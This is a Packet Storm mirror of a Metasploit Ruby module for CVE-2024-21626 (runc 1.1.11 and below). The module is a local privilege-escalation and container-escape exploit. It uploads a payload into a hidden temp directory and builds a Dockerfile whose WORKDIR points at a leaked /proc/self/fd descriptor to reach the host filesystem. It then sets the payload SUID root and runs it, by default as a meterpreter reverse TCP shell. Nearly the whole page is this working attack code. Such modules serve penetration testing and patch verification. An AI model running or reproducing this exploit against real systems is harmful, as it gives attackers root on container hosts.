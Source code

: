 ##
#
https://packetstormsecurity.com/files/176993/runc-1.1.11-File-Descriptor-Leak-Privilege-Escalation.html
#
##

runc 1.1.11 File Descriptor Leak Privilege Escalation
Posted Feb 5, 2024
Authored by h00die, Rory McNamara | Site metasploit.com
runc versions 1.1.11 and below, as used by containerization technologies such as Docker engine and Kubernetes, are vulnerable to an arbitrary file write vulnerability. Due to a file descriptor leak it is possible to mount the host file system with the permissions of runc (typically root). Successfully tested on Ubuntu 22.04 with runc 1.1.7-0ubuntu1~22.04.1 using Docker build.

tags | exploit, arbitrary, root
systems | linux, ubuntu
advisories | CVE-2024-21626
SHA-256 | c42842f57bc20a342f98ba3468fd922f4034a579676faa1da23d0d71f03b5e91
Download | Favorite | View
Related Files
Share This

LinkedIn
Reddit
Digg
StumbleUpon
runc 1.1.11 File Descriptor Leak Privilege Escalation
Change MirrorDownload
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##
```
class MetasploitModule < Msf::Exploit::Local
  Rank = ExcellentRanking

  include Msf::Post::Linux::Priv
  include Msf::Post::Linux::System
  include Msf::Post::File
  include Msf::Exploit::EXE
  include Msf::Exploit::FileDropper
  prepend Msf::Exploit::Remote::AutoCheck

  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'runc (docker) File Descriptor Leak Privilege Escalation',
        'Description' => %q{
          All versions of runc <=1.1.11, as used by containerization technologies such as Docker engine,
          and Kubernetes are vulnerable to an arbitrary file write.
          Due to a file descriptor leak it is possible to mount the host file system
          with the permissions of runc (typically root).

          Successfully tested on Ubuntu 22.04 with runc 1.1.7-0ubuntu1~22.04.1 using Docker build.
        },
        'License' => MSF_LICENSE,
        'Author' => [
          'h00die', # msf module
          'Rory McNamara' # Discovery
        ],
        'Platform' => [ 'linux' ],
        'Arch' => [ ARCH_X86, ARCH_X64 ],
        'SessionTypes' => [ 'shell', 'meterpreter' ],
        'Targets' => [[ 'Auto', {} ]],
        'Privileged' => true,
        'References' => [
          [ 'URL', 'https://snyk.io/blog/cve-2024-21626-runc-process-cwd-container-breakout/'],
          [ 'URL', 'https://github.com/opencontainers/runc/security/advisories/GHSA-xr7r-f8xq-vfvv'],
          [ 'CVE', '2024-21626']
        ],
        'DisclosureDate' => '2024-01-31',
        'DefaultTarget' => 0,
        'Notes' => {
          'AKA' => ['Leaky Vessels'],
          'Stability' => [CRASH_SAFE],
          'Reliability' => [REPEATABLE_SESSION],
          'SideEffects' => [ARTIFACTS_ON_DISK]
        },
        'DefaultOptions' => {
          'EXITFUNC' => 'thread',
          'PAYLOAD' => 'linux/x64/meterpreter/reverse_tcp',
          'MeterpreterTryToFork' => true
        }
      )
    )
    register_advanced_options [
      OptString.new('WritableDir', [ true, 'A directory where we can write and execute files', '/tmp' ]),
      OptString.new('DOCKERIMAGE', [ true, 'A docker image to use', 'alpine:latest' ]),
      OptInt.new('FILEDESCRIPTOR', [ true, 'The file descriptor to use, typically 7, 8 or 9', 8 ]),
    ]
  end

  def base_dir
    datastore['WritableDir'].to_s
  end

  def check
    sys_info = get_sysinfo

    unless sys_info[:distro] == 'ubuntu'
      return CheckCode::Safe('Check method only available for Ubuntu systems')
    end

    return CheckCode::Safe('Check method only available for Ubuntu systems') if executable?('runc')

    # Check the app is installed and the version, debian based example
    package = cmd_exec('runc --version')
    package = package.split[2] # runc, version, <the actual version>

    if package&.include?('1.1.7-0ubuntu1~22.04.1') || # jammy 22.04 only has 2 releases, .1 (vuln) and .2
       package&.include?('1.0.0~rc10-0ubuntu1') || # focal only had 1 release prior to patch, 1.1.7-0ubuntu1~20.04.2 is patched
       package&.include?('1.1.7-0ubuntu2') # mantic only had 1 release prior to patch, 1.1.7-0ubuntu2.2 is patched
      return CheckCode::Appears("Vulnerable runc version #{package} detected")
    end

    unless package&.include?('+esm') # bionic patched with 1.1.4-0ubuntu1~18.04.2+esm1 so anything w/o +esm is vuln
      return CheckCode::Appears("Vulnerable runc version #{package} detected")
    end

    CheckCode::Safe("runc #{package} is not vulnerable")
  end

  def exploit
    # Check if we're already root
    if !datastore['ForceExploit'] && is_root?
      fail_with Failure::None, 'Session already has root privileges. Set ForceExploit to override'
    end

    # Make sure we can write our exploit and payload to the local system
    unless writable? base_dir
      fail_with Failure::BadConfig, "#{base_dir} is not writable"
    end

    # create directory to write all our files to
    dir = "#{base_dir}/.#{rand_text_alphanumeric(5..10)}"
    mkdir(dir)
    register_dirs_for_cleanup(dir)

    # Upload payload executable
    payload_path = "#{dir}/.#{rand_text_alphanumeric(5..10)}"
    vprint_status("Uploading Payload to #{payload_path}")
    write_file(payload_path, generate_payload_exe)
    register_file_for_cleanup(payload_path)

    # write docker file
    vprint_status("Uploading Dockerfile to #{dir}/Dockerfile")
    dockerfile = %(FROM #{datastore['DOCKERIMAGE']}
    WORKDIR /proc/self/fd/#{datastore['FILEDESCRIPTOR']}
    RUN cd #{'../' * 8} && chmod -R 777 #{dir[1..]} && chown -R root:root #{dir[1..]} && chmod u+s #{payload_path[1..]} )
    write_file("#{dir}/Dockerfile", dockerfile)
    register_file_for_cleanup("#{dir}/Dockerfile")

    print_status('Building from Dockerfile to set our payload permissions')
    output = cmd_exec "cd #{dir} && docker build ."
    output.each_line { |line| vprint_status line.chomp }

    # delete our docker image
    if output =~ /Successfully built ([a-z0-9]+)$/
      print_status("Removing created docker image #{Regexp.last_match(1)}")
      output = cmd_exec "docker image rm #{Regexp.last_match(1)}"
      output.each_line { |line| vprint_status line.chomp }
    end

    fail_with(Failure::NoAccess, "File Descriptor #{datastore['FILEDESCRIPTOR']} not available, try again (likely) or adjust FILEDESCRIPTOR.") if output.include? "mkdir /proc/self/fd/#{datastore['FILEDESCRIPTOR']}: not a directory"
    fail_with(Failure::NoAccess, 'Payload SUID bit not set') unless get_suid_files(payload_path).include? payload_path

    print_status("Payload permissions set, executing payload (#{payload_path})...")
    cmd_exec "#{payload_path} &"
  end
end
```
